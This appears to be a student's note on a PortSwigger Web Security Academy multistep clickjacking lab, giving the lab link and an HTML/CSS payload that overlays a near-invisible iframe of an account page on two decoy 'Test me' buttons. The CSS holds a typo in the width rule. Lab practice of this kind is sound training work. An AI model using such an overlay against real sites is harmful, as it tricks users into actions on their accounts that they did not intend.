 #portswigger

[[broken portswigger labs]]
TODO: try to submit later

https://portswigger.net/web-security/learning-paths/clickjacking/clickjacking-multistep-clickjacking/clickjacking/lab-multistep#

<style>
	iframe {
		position:relative;
		width:width: 1000px;
		height: 666px;
		opacity: 0.00001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:512px;
		left:45px;
		z-index: 1;
	}
   .secondClick {
		top:311px;
		left:206px;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="https://0a41008803eacb21da66bf32004c0092.web-security-academy.net/my-account"></iframe>

